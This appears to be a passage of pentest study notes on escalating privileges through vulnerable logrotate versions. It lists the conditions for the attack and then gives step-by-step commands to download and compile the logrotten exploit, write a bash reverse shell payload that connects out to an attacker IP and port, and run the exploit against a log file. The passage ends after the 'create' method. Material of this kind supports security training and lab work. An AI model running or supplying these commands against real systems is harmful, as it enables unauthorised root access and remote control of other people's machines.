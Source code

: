 ### Logrotate conf file

```bash
cat /etc/logrotate.conf
```
We can find the corresponding configuration files in /etc/logrotate.d/ directory.

To exploit logrotate, we need some requirements that we have to fulfill.

 - we need write permissions on the log files
 - logrotate must run as a privileged user or root
 - vulnerable versions:
   + 3.8.6
   + 3.11.0
   + 3.15.0
   + 3.18.0

If these conditions are fulfilled, then there is a pre fabricated exploit [Logrotten](https://github.com/whotwagner/logrotten) to exploit this.


### Exploit
Download and complile the code on target system or system with similar kernel

```bash
git clone https://github.com/whotwagner/logrotten.git
cd logrotten
gcc logrotten.c -o logrotten
```
Next, we need a payload to be executed. Here many different options are available to us that we can use. In this example, we will run a simple bash-based reverse shell with the IP and port of our VM that we use to attack the target system.

```bash
echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```
Now there are two ways in which logrotate works, *create* or *compress*. There are different ways to explot those. For the create ones.

```bash
./logrotten -p ./payload /tmp/tmp.log
```
